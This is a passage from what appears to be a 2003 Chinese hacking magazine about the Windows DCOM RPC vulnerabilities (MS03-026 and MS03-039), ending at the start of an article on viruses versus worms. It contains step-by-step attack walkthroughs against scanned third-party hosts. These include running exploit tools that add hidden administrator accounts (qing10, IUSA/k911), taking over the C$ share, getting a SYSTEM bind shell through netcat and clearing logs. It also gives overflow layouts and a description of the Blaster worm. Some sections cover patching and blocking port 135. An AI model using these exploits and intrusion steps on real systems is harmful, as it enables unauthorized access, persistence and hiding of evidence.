该工具界面简单, 使用起来也非常方便。它可以对单台主机或某个网段逐渐进行扫描, 并且提供修改对方扫描端口的功能。图3便是我们对某一个网段进行扫描之后的结果。


在“Result”中, VULNERABLE的中文意思是“易受攻击的”, 这说明其对应的机器是存在DCOM RPC漏洞的。看了上面的扫描结果之后, 如果现在有人跟你说大部分电脑用户的安全意识良好, 你会相信吗?! 这个漏洞已经风风火火闹了近20天了, 居然还有这么多机器存在漏洞(仅有的一台打了补丁的机器已经休息了, 所以没有扫到, 呵呵)。如果本人表现彪悍一点的话, 可能这些机器都是小命不保啊。

(2)命令行扫描工具ScanMs
这个工具可能使用起来不如上面直观和友好, 不过其扫描效果并不比上面弱。该工具的说明信息如下:

```
E:\>scanms
---- ScanMs Tool ---- (c) 2003 Internet Security Systems ----
Scans for systems vulnerable to MS03-026 vuln.
More accurate for WinXP/Win2k, less accurate for WinNT
ISS provides no warranties for any purpose
```

```
Use at own risk. Runs best from WinXP.
IP Address              REMACT  SYSACT
DCOM Version
--------------------------------------
Usage:
  scanms <ipaddr> <ipaddr-ipaddr> ...
Specify addresses and ranges on the command line
```

从上面信息中, 我们可以看出其支持单台主机和某个网段的主机扫描。比如我们要对202.*.*.1至202.*.*.254网段进行扫描, 则输入命令: “scanms 202.*.*.1-202.*.*.254”即可, 其扫描结果如图4所示。


从命令行的扫描结果来看, 我们得到的信息比较详细。有几台机器虽然在前面图形扫描器中显示为VULNERABLE, 但是命令行的扫描结果却有更加详细的情况分析, 比如202.*.*.67这台机器可能你就无法完成入侵, 有些机器被攻击过后可能会出现上面的情况。

#### 2. DCOM RPC 攻击工具

关于DCOM RPC的攻击工具, 现在已经出现了很多版本。笔者针对手上已有的版本做个简单介绍, 在某些工具的使用上会给出具体实例。大家先看看该工具包的清单, Rpcdcom工具包如下(其中, 我们添加了最后两个工具):

- (1) retinarpcdcom.exe 和 scanms.exe 是扫描器, 前者是图形界面, 后者是命令行的。
- (2) godcom.exe 是开端口后连接型, 支持44种不同OS和SP类型!
- (3) bkdcom.exe 是反弹式连接型, 溢出成功后还可以再次溢出, 而且不会出现目标机不能用“粘贴”的现象! 推荐使用!
- (4) Chdcom.exe 针对中文和英文版。
- (5) Endcom.exe 针对英文版。
- (6) rpc.exe 针对18种不同OS和SP类型。
- 7. Nc.exe 这个就不介绍了，程序3和6需要Nc.exe。
- 8. Cygwin1.dll 支持文件，请和程序放在一个目录！
- 9. rpcdcom.exe 对目标进行机器进行溢出攻击，并添加用户名/密码均为qing10/qing10的管理员账号。测试了中文版的Win2000/XP版本，都很成功！
- 10. OpenRPCSs 用来打开对方当掉的RPC服务。

现在，我们便对上面扫描到的机器做个攻击测试吧。这里，我个人认为最方便的工具是rpcdcom.exe，这个本不属于上面那个工具包，为了介绍方便，将其添在第9项，OpenRPCSs是和其配套的，用来打开对方当掉的RPC服务。笔者在对多台机器的测试中，屡试不爽。这里给出一个实例。

首先，我们从上面扫描到的机器中随便挑选一台机器（比如202.*.*.108，接吉利的数字）作为目标吧。这里我们就不用在此重复扫描了，直接敲入命令行：

```
Rpcdcom 202.*.*.108
```

我们得到如图5所示的结果：


一般来说，这就代表成功了，并已经添加了一个用户名和密码都为qing10的管理员账号。现在我们可以在浏览器中输入“\\202.*.*.108”，然后在登陆窗口输入用户名和密码便可以访问对方资源了；比如输入“\\202.*.*.108\C$”便可以进入对方C盘。当然别忘了，为了不让对方感受到RPC当掉后的痛苦，我们可以通过OpenRpcSs.exe程序打开对方RPC服务（图6）。

不过这里，我们使用另外一个程序psexec.exe（这个程序我想大家都应该非常熟悉了，它可以在远程机器上执行指定程序）。如图7所示，我们通过psexec.exe直接查看对方的用户账户列表。


怎么样？感觉还不错吧？你还可以通过如下命令删除刚才建立的账号qing10。

```
Psexec \\202.*.*.108 net user qing10 /del
```

当然，还可以通过PSTools工具组的其他工具一一测试，并在最后通过psloglist.exe查看和清除留下的日志；如果你对命令行程序足够感兴趣的话，效果非常不错哦。

> 这里即使通过上面命令删除了远程主机的qing10账户，我们暂时还会拥有该账户的权限。比如，我们仍然可以通过psexec执行远程命令。

关于其他反弹性工具和NC的使用，本期《来自135端口的威胁攻击——漏洞利用方法》一文有比较详细介绍，这里也就没有必要专门说明了。另外一些工具的使用，我想大家可以也很容易上手的，由于篇幅关系这里不再介绍。

### 漏洞防范

作为迄今为止Windows系统中发现的最严重的一个系统漏洞，我们不得不对这个漏洞的防范加以重视。从目前情况来看，这方面的工作似乎做得并不好。这的确是属于广大用户安全意识的问题了。

关于这个漏洞的防范，这里推荐使用两种方法。

- 1. 打好补丁
对于任何漏洞来说，打补丁都是最完美的防御漏洞的方法。关于这个漏洞的各类补丁我们会放在光盘中，大家在打补丁的时候请注意相应系统版本。

不过听说对于某些版本的补丁，好像出现无法正确修补漏洞的问题。如果出现这种情况，大家可以参考第二种方法。

### 2. 关闭 135 端口

对于那些不需要提供很多端口服务的用户来说，可以直接按图8所示的步骤进入“TCP/IP筛选”，添加筛选器，指定你需要使用的端口。


另外，你也可以通过防火墙来达到这个目的。图9便是使用“天网防火墙个人版”采取的配置策略，这样当有对135端口的TCP请求时，便会拦截这个包并在日志中记录下来。


另外，RPC的漏洞到目前为止主要针对Windows RPC系列，实际上存在3个类似的漏洞，而不只是本文中讲到的这一个。具体情况大家可以参考《CCERT 关于Windows RPC系列漏洞的安全公告》，网址为http://www.ccert.edu.cn。

### 对于漏洞细节公布的思考

LSD RPC 溢出漏洞是波兰黑客组织LSD针对微软的Windows NT/2000/XP/2003操作系统发布的，而安全焦点成员在仅有微软公告中几句简单描述的基础上，几天内通过反汇编，迅速定位漏洞，并且写出了漏洞利用代码。与此同时，他们将漏洞分析及利用代码在网站上发布并且转贴到了Bugtraq这一漏洞研究的邮件列表。

公布漏洞细节是好是坏，我想各有各的道理。无论对于一个用户安全意识普遍低下，还是一个安全意识普遍比较高的环境来说，我个人觉得公布漏洞细节都有其有利的一面。

首先，公布漏洞细节可以引起有关方面的足够重视，他们会尽快做好安全防范和打好补丁，可以让“IDS厂商与管理员了解漏洞的原因，尽快地加入到漏洞扫描、入侵检测这样的整体安全体系里来，实现真正的安全”。其次，对于那些安全意识比较薄弱的用户，也可以通过一系列事件认识到安全的重要性，提高其安全意识。一般来说，没有亲身遭遇过，可能不会有安全与危险的概念，本文中前面提到的扫描结果就足以证明这一问题了。

最近,SQL蠕虫王、RedCode有所抬头，这两个蠕虫所利用的漏洞都算比较老了，但是到了今天还是有不少机器频频中招！什么原因呢？还是安全意识的问题。当某个蠕虫可以让整个网络临近瘫痪的时候，而你却发现这并不能引起丝毫重视，这时似乎又会觉得公布漏洞细节有些不应该了呢？

谈到安全的问题，我觉得应该从增强广大网民的安全意识入手了，特别是在这个蠕虫可以满天飞的年代，打不打补丁已经不是个人问题。一台机器中了SQL蠕虫王病毒，可能导致整个内部网络瘫痪，这难道还是个人问题吗？！

### 后记

对于广大公司和单位来说，网络安全已经变得越来越重要，但往往一些单位对安全的投入太少，与自己公司的规模极端不成比例。不少公司的员工的网络安全意识不够，并且很多单位的安全技术人员似乎都不是专门负责安全的，他们总是还被分配了其他各方面的繁琐任务。网络安全本来就应该是个非常细致和需要足够耐心和时间的工作，如果这方面不加以改善，恐怕最终会得不偿失。在SQL蠕虫王还可以造成巨大影响的今天，如果RPC蠕虫一旦出现，这将意味着什么呢？祝愿广大用户可以安全的在DCOM RPC漏洞中前进……

## 透视 RPC DCOM

### 第二个接口漏洞


文／图 isno

最近网络安全界最热门话题肯定是非RPC DCOM接口漏洞莫属了，从2003年7月16日LSD公布第一个漏洞，到2003年7月25日Xfocus的flashsky公布漏洞细节，再后来到“冲击波”病毒的流行，一直到最近eEye公布第二个RPC DCOM接口漏洞，期间数以百万计的计算机受到了攻击。

RPC DCOM接口漏洞对Windows操作系统乃至整个网络安全的影响可以说超过了以往任何一个系统漏洞，其主要就是因为DCOM是目前几乎所有Windows系统的基础组件，因此RPC DCOM接口漏洞广泛存在于Windows NT、Windows 2000、Windows XP以及Windows 2003等几乎所有的主流Windows操作系统当中，而不像以前的IIS漏洞那样仅存在于Server版本。

本文首先从技术角度对目前所发现的两个RPC DCOM接口漏洞进行了详细的分析，最后再通过RPC DCOM接口漏洞攻击实例帮助大家加深理解，相信阅读之后，你会对RPC DCOM的2个漏洞了如指掌。

### DCOM基础知识

做过Windows开发的人肯定都对COM有所耳闻，而每个使用Windows操作系统的用户也都在不知不觉当中与COM进行过了无数次的亲密接触。COM也就是组件对象模型，自从Windows 95之后，就作为Windows操作系统的基础部件之一嵌入了系统当中，像大家经常常用的IE、Word等软件都是以组件的形式实现的，便于在其他软件当中调用。

而DCOM也就是分布式COM，扩展了组件对象模型技术(COM)，使其能够支持在局域网、广域网甚至Internet上不同计算机的对象之间的通讯。使用DCOM的应用程序就可以在位置上达到分布性，从而满足客户和应用的需求。因为DCOM是世界上领先的组件技术COM的无缝扩展，所以你可以将你现在对基于COM的应用、组件、工具以及知识转移到标准化的分布式计算领域中来。当你在做分布式计算时，DCOM处理网络协议的低层次的细节问题，从而使你能够集中精力解决用户所要求的问题。例如我们可以在IE里面远程调用另一台机器上的Excel组件来打开Excel文档。

在Windows内部，DCOM的实现是基于一种叫做RPC的应用层协议，RPC即远程过程调用，是一种用于分布式计算环境的协议规范。目前有两种比较成熟的规范：Sun RPC和DCE RPC，而Windows所使用的就是DCE RPC的一种变形。对于网络层次结构来说，DCOM和RPC位于同一层次即应用层上，如图1所示。


COM和DCOM本身是靠对象和接口来实现组件之间的通讯与交互的，也就是说一个COM对象要向外导出一些接口，每个接口又导出一些函数，由其他程序访问这些接口，从而调用接口的函数。

在Windows NT中，系统的RPC服务是一个名为rpcss.exe的进程，在Windows 2000及其后的系统当中，RPC服务是以rpcss.dll来实现的，这个dll文件由svchost.exe进程来加载启动。RPC服务可以通过管道(TCP 139端口)、HTTP(TCP 80端口)、TCP 135端口以及UDP等许多端口来进行通信，默认情况下WMI和endpoint mapper等RPC绑定在TCP 135端口上。

以上就是关于DCOM以及RPC的基础知识。

## Windows DCOM漏洞分析

有了上面的基础知识，我们可以来看一下Windows的DCOM漏洞究竟是怎么产生的。对于远程调用一个对象的接口，一般来说我们使用CoCreateInstanceEx这个API函数，这个函数有一个COSERVERINFO *pServerInfo的参数，这是一个结构，在其中的LPWSTR pwszName域我们填入远程主机的主机名或IP地址，这样就可以创建某个对象的接口的实例。除了CoCreateInstanceEx之外，系统还提供了另一个名叫CoGetInstanceFromFile的API来进行同样的操作。CoGetInstanceFromFile除了完成CoCreateInstanceEx所做的工作之外，还从一个指定的文件里面读出内容，然后按照文件内容对接口进行初始化。

这些都是在系统提供的COM API上所做的事情，而COM API首先发送RPC包来调用远程系统的IRemoteActivation接口来激活指定对象。对于Windows 2000以前的操作系统，直接绑定到IRemoteActivation接口就行了，而Windows 2000以及后来的系统，都要首先绑定到ISystemActivator这个接口上面，然后才会调用系统的IRemoteActivation接口。注意，这些接口并不是某个COM对象导出的接口，而是RPC上的DCOM接口。IRemoteActivation这个接口只有一个名为RemoteActivation的函数，它的作用就是激活某个指定对象的指定接口，函数原型如下:

```cpp
HRESULT RemoteActivation(
    [in] handle_t         hRpc,
    [in] ORPCTHIS         *ORPCthis,
    [out] ORPCTHAT        *ORPCthat,
    [in] GUID *Clsid,
    [in, string, unique] WCHAR *pwszObjectName,
    [in, unique] MInterfacePointer *pObjectStorage,
    [in] DWORD ClientImpLevel,
    [in] DWORD Mode,
    [in] DWORD Interfaces,
    [in, unique, size_is(Interfaces)] IID *pIIDs,
    [in] unsigned short cRequestedProtseqs,
    [in, size_is(cRequestedProtseqs)]
        unsigned short RequestedProtseqs[],
    [out] OXID *pOxid,
    [out] DUALSTRINGARRAY **ppdsaOxidBindings,
    [out] IPID *pipidRemUnknown,
    [out] DWORD           *pAuthnHint,
    [out] COMVERSION      *pServerVersion,
    [out] HRESULT         *phr,
    [out, size_is(Interfaces)] MInterfacePointer *ppInterfaceData,
    [out, size_is(Interfaces)] HRESULT *pResults,
);
```

其中包含众多的参数，大多数都是用于指定对象以及接口特征的。目前所公布的两个漏洞都是服务端的 `RemoteActivation` 函数的内部实现造成的，其中 `pwszObjectName` 这个参数就是 `CoGetInstanceFromFile` 函数所传入的文件名参数，由于对UNC文件名进行解析的时候对长度检查不够，所以造成了一个堆栈溢出和一个堆溢出。

下面我们就来分别看一下这两个漏洞。

### 1. MS03-026 堆栈溢出漏洞分析

最早LSD所发现的就是这个漏洞，微软在MS03-026安全公告里面指出这是一个堆栈缓冲区溢出漏洞，其后flashsky分析出了这个漏洞的触发原理。

首先当我们调用 `CoGetInstanceFromFile` 函数时， `OLECHAR* szName` 参数可以指定一个UNC路径表示的文件名，即“\主机名\共享名\文件名”的形式，这个调用就会首先发送到远程主机的 `ISystemActivator` 接口上，然后 `ISystemActivator` 再调用把UNC路径表示的文件名字符串作为 `IRemoteActivation` 接口的 `RemoteActivation` 函数的 `pwszObjectName` 参数来传入。当其中主机名字符串的长度超过0x20的字节的时候会造成系统RPC进程溢出，可以覆盖函数的返回地址或者异常处理指针。

想要触发溢出的话，就不能简单的通过给 `CoGetInstanceFromFile` 函数传递超长文件名，因为 `CoGetInstanceFromFile` 首先要检查该函数是否可以在本地进行访问，如果不能的话，就不会向远程主机发送RPC包了。而Windows对主机名的长度是有限制的，因此我们也无法设置一台主机的主机名超过0x20个字节，所以就只能通过手工构造RPC数据包的办法来触发溢出。对于包的结构，flashsky发布的Exploit给出了一个通过调用 `ISystemActivator` 接口传入长字符串的包，其中除了要改变UNC文件名中的主机名长度之外，还要设置几处结构的长度。但是这个包还会触发一个RPC的DoS的漏洞，所以有时候调试的时候多发几次这个包( UNC路径不超长的)也会把RPC服务给当掉。其实我们直接调用 `IRemoteActivation` 接口就行了，包的长度小了很多，其中的结构长度也少很多。这里给出一个用于测试的小程序，就是直接给 `IRemoteActivation` 接口的 `RemoteActivation` 函数传入超长字符串:

> **注：** 详细源代码请见光盘中DCOMPRC.rar压缩包中的“testrpc.pl”文件，该文件为Perl文件，可用记事本打开查看编辑。

这个程序非常简单，它的作用就是发送指定长度的字符串到远程主机，默认长度是0x28字节的长主机名。这时候远程主机会报错，如果这时我们在远程主机上面运行了调试软件，就会发现出错的位置是在下面我们提到的地址。

通过反汇编C:\WINNT\System32\下面的rpcss.dll文件我们就可以发现其中的秘密。


> **注：** 反汇编后的详细代码请见光盘中DCOMPRC.rar压缩包中的“masm.txt”文件。

从反汇编后的代码可以看出，这是一个非常典型的堆栈缓冲区溢出，而且没有长度限制，通过调试，察看fs:0指向的异常处理指针的位置可以发现，在从主机名字符串偏移为0x600的位置是异常处理指针，此时我们就可以很容易的使用如下字符串来覆盖异常处理指针:

```
|AAAAAAAAA...ljmp 8ljmp ebx|NOPNOPNOP...shellcode...|
```

这样当 `GetPathForServer` 函数返回的时候会返回到0x41414141，因为这个地址是一个非法地址，所以就会触发异常，从而跳到异常处理指针+4的位置执行，也就是我们用系统中存在的 `jmp ebx` 或 `call ebx` 地址来覆盖的位置，这时ebx寄存器指向前面的 `jmp 8` ，用这个指令来跳过后面的 `jmp ebx` 地址，从而执行到shellcode当中。

具体的攻击代码就不再赘述了，网上有许多可用的代码，唯一的区别就在于jmp ebx地址的通用性和shellcode的不同。当然，也有一些程序是通过覆盖返回地址来实现的，这样通用性就比较差了。

### 2. MS03-039 堆溢出漏洞分析

除了LSD发现的这个堆栈溢出之外，IRemoteActivation接口还存在另外一个溢出漏洞。eEye在LSD公布第一个RPC漏洞之后不久就发现了这个漏洞，微软随后发布了MS03-39安全公告。这个漏洞虽然也是在IRemoteActivation接口在处理UNC文件名时出现的问题，但是它并不是堆栈溢出，而是一个堆溢出，这样就大大的增加了利用漏洞的难度。

当把UNC路径表示的文件名，即“\主机名\共享名\文件名”中的共享名和文件名指定为超长字符串的时候会触发这个堆溢出漏洞。我们首先来看一下这个溢出是怎样发生的。

同样是在GetPathForServer函数中，当拷贝完了主机名之后，会对主机名作一下判断：

```asm
.text:7614D832 ; int __stdcall sub_7614D832(LPCWSTR lpString1)
.text:7614D841    mov     edi, ecx
.text:7614D843    lea     eax, [edi+18h]
.text:7614D846    push    eax ; 本主机名
.text:7614D847    push    ebp ; lpString1
.text:7614D848    call    ebx ; lstrcmpiW
.text:7614D84A    test    eax, eax
.text:7614D84C    jz      loc_7614D8FF
.text:7614D852    push    offset aLocalhost ; "localhost" 字符串
.text:7614D857    push    ebp ; lpString1
.text:7614D858    call    ebx ; lstrcmpiW
.text:7614D85A    test    eax, eax
.text:7614D85C    jz      loc_7614D8FF
.text:7614D862    push    offset a127_0_0_1 ; "127.0.0.1" 字符串
.text:7614D867    push    ebp ; lpString1
.text:7614D868    call    ebx ; lstrcmpiW
```

也就是判断主机名是本主机名或是“localhost”或“127.0.0.1”其中之一的时候才会继续后面的操作，所以我们要想触发堆溢出，必须把主机名设为以上字符串中的一个。后面的操作就是分配一块内存，然后使用lstrcatW函数把文件名拷贝进去。

```asm
.text:76154476    push    20Ah ; 分配内存的大小
.text:7615447B    push    edi
.text:7615447C    push    dword_7615C000
.text:76154482    call    HeapAllocFunc ; 调用这个函数分配一块 0x20a 大小的堆内存
.text:76154488    mov     edi, eax
.text:7615448A    test    edi, edi ; 如果分配内存失败的话就不进行拷贝
.text:7615448C    jnz     short loc_76154449E
.text:7615448E    push    [ebp+hMem] ; hMem
.text:76154491    call    ds:LocalFree
.text:76154497
.text:76154497 loc_76154497: ; CODE XREF: GetPathForServer+4146j
.text:76154497    mov     eax, 8007000Eh
.text:7615449C    jmp     short loc_7615446F ; 分配失败则跳转到错误处理
.text:7615449E
.text:7615449E
.text:7615449E loc_7615449E: ; CODE XREF: GetPathForServer+B246j
.text:7615449E    mov     eax, [ebp+hMem]
.text:761544A1    push    dword ptr [eax+18h] ; lpString2
.text:761544A4    push    edi ; lpString1
.text:761544A5    call    ds:lstrcpyW
.text:761544AB    push    esi ; lpString2
.text:761544AC    push    edi ; lpString1
.text:761544AD    mov     [esi], bx
.text:761544B0    call    ds:lstrcatW ; 使用 lstrcatW 函数把共享名和文件名拷贝到 0x20a 大小的堆内存中
```

大家可以看到，这里由于没有判断lstrcatW的长度，所以会造成堆溢出。虽然溢出本身没有什么限制，但是由于堆溢出的特殊性，所以利用起来相当困难，这也就是目前所公布的针对RPC DCOM 2漏洞的攻击程序都不是非常通用的原因。

首先我们来看一下这个堆溢出为什么可以被利用。我们知道，由于Windows使用双向链表进行堆的管理，所以动态分配的内存块之间都是不连续的。当分配一块内存的时候，会在固定大小的内存之后多分配出几个字节用于存放链表指针，这样当下一次再分配或者释放内存的时候就会用到这些指针。比较特殊的是，无论是分配还是释放，都会把其中一个指针的地址写到另一个指针中去，这就是堆溢出可以利用的原因了，因为溢出的时候，我们可以把堆后面的管理结构覆盖掉，这样我们就可以有控制地把任意4个字节的内容写到任意地址当中去，示例如图2所示。


RPC的堆溢出也是这样，在共享和文件名偏移为0x230的地方可以覆盖到堆的管理结构，会把0x234开始的4个字节的内容写到0x230所包含的地址的地方。根据目前堆溢出的利用理论，一般都是把可以定位shellcode的地址写入顶层异常处理指针中去。顶层异常处理指针就是系统的SetUnhandledExceptionFilter函数来设置的一个二级指针的位置，当发生异常时，首先会调用这个指针所包含的地址的代码，然后才会逐步进入程序中的异常处理代码。所以只要我们把顶层异常处理指针位置写入shellcode或者能够定位shellcode的地址，这样当后面发生异常的时候就可以跳到shellcode当中去执行了。

> **编者注：** Windows下的异常处理有两种方式，一种是此处提到的通过SetUnhandledExceptionFilter API进行设置，也叫做筛选器异常处理；另一种叫做SEH异常处理。筛选器异常处理的方式由程序指定一个异常处理回调函数，当发生异常的时候，系统将调用这个回调函数。这个回调函数不是替换了系统默认的异常处理程序，而是在它前面进行了一些预处理，操作的结果还是会被送到系统默认的异常处理程序中去。

虽然理论上比较简单，可是想要写出通用的攻击程序却是非常困难，因为首先顶层异常处理指针在不同语言、不同SP补丁、不同版本的Windows系统当中都是不固定的，甚至打过不同的补丁，都会造成这个地址的改变，这样就不可能对所有的系统使用统一的地址。这还只是攻击程序不能通用的原因之一。另外，想找到通用的定位shellcode的地址的方法也绝非易事，一种思路就是通过使用大量NOP+shellcode的方法来把返回地址尽量放在中间，这样可以达到一定的成功率。另一种思路，就是像普通堆栈溢出一样使用一个固定的跳转地址来定位shellcode。根据immunitysec的DAVE的研究成果，当进入顶层异常处理代码的时候，ebp+0x74和ebp+0xb4的位置存放着可以shellcode的地址，这样我们可以在内存当中寻找包含call [ebp+0x74]或者jmp [ebp+0x74]这样指令的地址，用这个地址来覆盖顶层异常处理指针，同样可以返回到shellcode当中。幸运的是，在中英文版的Windows 2000系统中都可以找到这样的地址。

当然困难还不仅仅是这些，由于溢出发生在线程默认堆中，所以堆的链表结构被破坏了，因此我们所能使用的shellcode受到了极大的限制。这是因为shellcode要使用系统API函数，而系统API函数一般都要使用线程默认堆来分配内存，所以一旦默认堆被破坏，系统API函数就无法成功调用了。目前解决这一问题的办法就是在shellcode中首先使用HeapCreate函数来创建一个堆，然后用这个堆的地址来替换掉TEB结构当中的默认堆地址。但是这样使用winsock函数仍然会出现问题，因为winsock函数会使用一些特殊机制来得到线程默认堆地址，所以目前的攻击程序都只能使用不带网络连接功能的shellcode。

解决了以上难题之后，我们就可以来看看如何构造超长字符串来利用这个溢出漏洞了:

```
|NOPNOPNOP....shellcode|NOPNOPNOP... jmp back||顶层异常处理地址|call [ebp+0x74]|
```

这样用顶层异常处理地址和call [ebp+0x74]地址覆盖掉堆内存后面的链表指针之后，当释放这块内存或者再次分配内存的时候，就会把call [ebp+0x74]地址写入顶层异常处理地址当中。后面就会发生异常，就会执行call [ebp+0x74]这个指令，因为此时的ebp+0x74恰好指向jmp back指令前面的NOP中去，然后我们用一个jmp back指令再向后跳转到shellcode当中去执行就可以了。

具体的攻击程序可以参考Xfocus的ey4s发布的MS03-39的Exploit程序，但是由于上面所述的各种原因，目前针对这个漏洞的攻击的成功率是比较低的。

## 攻击实例

假设现在有一台没有打过MS03-026和MS03-039补丁的Windows 2000服务器，我们可以用目前网上公布的一个比较好用的攻击程序rpcex.exe来进行攻击。

> 注：rpcex.exe攻击程序的源代码见光盘“DCOMRPC.rar”压缩包中的“rpcex.c”文件，该文件为C语言代码，需要编译为可执行文件。

```
D:\>rpcex
Usage:
rpcex <host> <Target ID> <Attack port> <BindShell port>
Options:
--host: Hostname to attack [Required]
-Target ID: Target ID [Default: 0]
	0 [All Chinese Version Windows]: [0x7ffa4512]
	1 [All Japanese Version Windows]: [0x7ffb6fd0]
	2 [All Big5 Version Windows]: [0x7ffc37b6]
	3 [All Korean Version Windows]: [0x7ffa4a1b]
	4 [Win2k-Universal]: [0x0018759f]
	5 [WinXP-Universal]: [0x0100139d]
--Attack port: Attack port [Default: 135]
--BindShell port: Bindshell port [Default: 8888]
```

首先我们应该要知道目标主机是否是中文版本的系统，如果无法知道的话，起码要知道它是Windows 2000还是XP。假设我们可以确定它是中文版的Windows系统，这样即使不知道究竟是2000还是XP，我们也可以用0作为Target ID。如果我们仅仅知道它是2000，而不清楚是什么语言版本的系统，那就用1作为Target ID。比如：

```
D:\>rpcex 219.242.xxx.xxx 0 135 8888
[+] Resolving host.. 219.242.xxx.xxx
[+] Target: [All Chinese Version Windows]: 219.242.xxx.xxx:135, Bindshell:8888, RET= [0x7ffa4512]
[+] Use Netcat to connect to 219.242.xxx.xxx: 8888

D:\>nc -vv 219.242.xxx.xxx 8888
isno [219.242.xxx.xxx] 8888 (?) open
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>
```

这样一来我们就获得了一个SYSTEM权限的CMD shell，我们可以在其中添加管理员账号、安装后门等。

对MS03-026这个漏洞的攻击成功率还是相当高的，一般没打过补丁的系统都可以成功。对于MS03-039的堆溢出漏洞就没有那么容易成功了，但是我们仍然可以用sbaa写的攻击程序来试一下。

> 注：sbaa攻击程序的源代码见光盘DCOMRPC.rar压缩包中的“sbaa.c”文件，该文件为C语言代码，需要编译为可执行文件。

```
D:\>sbaa.exe
RPC DCOM2 heap overflow Vulnerability discoveried by nsfocus
Code by FlashSky,eyas xfocus org
Modified by sbaa(sbaa@163.net) 2003/09/21 ver 0.2
Try to use a magic offset can all-purpose heap malloc or free buf overrun!
Please only use it to test your machine, will add a admin user IUSA/k911 !!

Usage: sbaa Os targetip
sbaa 0 127.0.0.1

OS Type:
Windows 2000 Sp3, SP4+ms-026(cn)-0
Windows 2000 SP4 +ms-026(en)-1
```
我们选择 0 作为 OS Type 来试一下：
```
D:\>sbaa 0 219.242.xxx.xxx
RPC DCOM2 heap overflow Vulnerability discovered by nsfocus
Code by FlashSky,eyas xfocus org
Modified by sbaa(sbaa@163.net) 2003/09/21 ver 0.2
Try to use a magic offset can all-purpose heap malloc or free buf overrun!
Please only use it to test your machine, will add a admin user IUSA/k911 !!
- top seh address of 0x77ec144c jmp esp+74 0x779fb495
buflen=668 sclen=321
overflow Success!(if can't get admin account IUSA/k911, try other offset ......@.@......
```

这时如果成功的话，会在远程主机上面增加一个名字为IUSA的管理员账号，密码是k911。我们可以用 `net use \\219.242.xxx.xxx\ipc$ k911 /user:IUSA` 来尝试与远程主机建立连接，如果成功那就是攻击生效了。如果没有成功，可能远程主机的RPC服务也当掉了，你只有等对方重启以后再进行攻击。

## “冲击波”蠕虫病毒

“冲击波”蠕虫是一个利用RPC DCOM接口堆栈缓冲区溢出漏洞(MS03-026)的蠕虫病毒，它的大小为6176字节，是用LCC编译、upx压缩的可执行程序。

这个蠕虫感染系统后会在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 中添加 `msblast.exe`，以便在系统每次重启时自动运行蠕虫程序。它还会在本地的UDP/69端口上建立一个TFTP服务器，用来向其他受侵害的系统上传送蠕虫的二进制程序 `msblast.exe`。

蠕虫会向目标机器的TCP/135端口发送攻击数据，攻击代码基本使用了FlashSky发布的MS03-026漏洞的攻击代码，只是返回地址改为了一个比较通用的jmp esp地址，可以成功的攻击中英文版的Windows 2000，但是对Windows XP只能造成系统重启，而无法成功入侵。一旦攻击成功，shellcode会监听目标系统的TCP/4444端口作为后门，并绑定cmd.exe。然后蠕虫会连接到这个端口，发送TFTP命令，回连到发起进攻的主机，将 `msblast.exe` 传到目标系统上，然后运行它。

“冲击波”蠕虫检测到当前系统月份是8月之后或者日期是15日之后，就会向微软的更新站点“windowsupdate.com”的80端口发动SYN Flood拒绝服务攻击。这大概是为了报复微软从SP3开始自动进行系统更新而造成有漏洞的主机减少吧。

清除蠕虫的方法首先是安装微软公布的补丁，然后删除系统目录下的 `msblast.exe` 文件，删除注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 键下的“windows auto update”=“msblast.exe”键值。当然，这个蠕虫可能已经有了新的变种，如果想要彻底清除的话，还是请使用杀毒软件进行清除。

## 最后的话

其实RPC DCOM接口的漏洞不仅仅是本文所提到的这两个，微软的MS03-39这个安全公告里就提及了文件名长字符串的堆溢出以外，还有一个RPC包长度域造成的堆溢出漏洞和另外几个拒绝服务漏洞。不过这次微软下了点功夫，把这几个漏洞一起补了。但是由于RPC协议的复杂性，相信还有其他漏洞存在，所以大家除了必须及时安装微软的补丁以外，还应该防患于未然，尽量使用防火墙把135等不经常使用的端口都过滤掉。

这次的RPC DCOM漏洞造成的危害是非常严重的，在网络安全行业工作的朋友肯定都会感觉到最近的业务量明显增多了。这对于普通用户来说当然是坏事，但从某方面讲也检验了大家的安全意识。从微软发布公告的现在，网上存在这个漏洞的机器数量已经大大减少了，这说明中国的普通电脑用户已经有了自我保护意识，还是非常可喜可贺的。

> **编后**
有了以上的详细介绍，相信很多朋友都能对RPC DCOM漏洞有很深刻的认识了，但是或许还是有很多新手朋友们不太明白“溢出”之类的专有名词，那就多翻翻《黑客防线》杂志吧！

“病毒”和“蠕虫”是曝光率最高的两个热门词语，有时候它们也经常一起亮相，譬如“蠕虫病毒”，但病毒和蠕虫之间是否可以划上等号呢？对病毒和蠕虫熟悉的朋友，肯定会说不能。那它们之间到底有什么关系，究竟又有什么区别呢？或许你可能已经对病毒有一些研究，甚至说不定你还有过自己的“作品”，但要让你完整地回答这两个问题，可能也并不是那么容易。因此，我们特别策划了本文，从大家普遍存在的误解出发，专门和大家一起探讨一下它们之间的异同。


## 病毒 VS 蠕虫

### 谁更上一层楼

文/ sky_whu

在网络安全中，我们一直听到这样的名词：“蠕虫病毒”。在很多人的眼中，蠕虫和病毒之间似乎没有区别，或者他们能够进行网络传播的病毒都属于所谓的“蠕虫病毒”。而实际上蠕虫和病毒之间虽然具有很多相似点，都属于杀毒软件所查杀的范围，但它们却是两个不同的概念。下面我们就为大家理清它们之间的各种关系，以便于你对蠕虫和病毒做出一个准确的判断。

### 普遍存在的误解

有些朋友认为，蠕虫属于病毒的一种，或许这跟“蠕虫病毒”这种称呼有关系，即蠕虫类病毒；有的朋友也可能认为蠕虫和病毒本身并没有分别，这只是两个不同的称呼而已；还有人认为可以通过网络传播的病毒就属于蠕虫，更有甚者，有人认为用高级语言编写的便属于蠕虫。但事实果真如此吗？

### 病毒和蠕虫的定义

- 1. **病毒的定义**

人们在探讨计算机病毒的定义时，常常追溯到David Gerrold在1972年发表的科幻小说《When Harlie Was One》，但计算机病毒的技术角度的定义是由Fred Cohen在1984年给出的，“计算机病毒是一种程序，它可以感染其他程序，感染的方式为在被感染程序中加入计算机病毒的一个副本，这个副本可能是在原病毒基础上演变过来的”。1988年Morris蠕虫爆发后，Eugene H. Spafford为了区分蠕虫和病毒，将病毒的含义作了进一步的解释。

